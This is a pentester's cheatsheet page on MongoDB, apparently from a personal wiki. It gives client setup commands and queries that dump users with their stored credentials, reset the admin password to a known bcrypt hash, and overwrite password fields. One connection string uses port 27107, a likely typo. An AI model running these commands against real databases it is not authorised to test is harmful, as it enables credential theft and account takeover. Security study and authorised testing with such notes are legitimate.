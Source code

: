 [MongoDB](https://en.wikipedia.org/wiki/MongoDB) *is a source-available cross-platform document-oriented database program. Classified as a NoSQL database program, MongoDB uses JSON-like documents with optional schemas.*

[[NoSQLInjection]]

Quick and easy client
```bash
curl -O https://fastdl.mongodb.org/linux/mongodb-linux-x86_64-3.4.7.tgz  
tar xvf mongodb-linux-x86_64-3.4.7.tgz  
cd mongodb-linux-x86_64-3.4.7/bin  
./mongo mongodb://$ip:27107
```

#### MongoDB CheatSheet

[0xsyr0's](https://github.com/0xsyr0/OSCP#mongodb) modified OSCP cheatsheet:

```c
mongo "mongodb://localhost:27017"
```

```c
> use <DATABASE>;
> show dbs;
> show tables;
> show collections;
// .$table.function()
> db.system.keys.find();
> db.users.find();
> db.getUsers();
> db.getUsers({showCredentials: true});
> db.accounts.find();
> db.accounts.find().pretty();
> use admin;
```

User Password Reset to "12345"
```c
> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
```

One-liner locally to access a database and extract database data and print it in [[JSON]]
```bash
# --eval is a script block to evaluate json
mongo --port $port $database --eval "db.admin.find().forEach(printjson);"
```

Make a valid password
```bash
mkpasswd -m $algo Password1234
```

Replace a password
```bash
mongo --port $port $database --eval 'db.admin.update({"_id":  
ObjectId("$objectID")},{$set:{"$password":"$newPasswordHash"}})'
```


## References

[MongoDB documentation](https://www.mongodb.com/docs/)
[Wikipedia MongoDB](https://en.wikipedia.org/wiki/MongoDB)
[0xsyr0 OSCP cheatsheet](https://github.com/0xsyr0/OSCP#mongodb))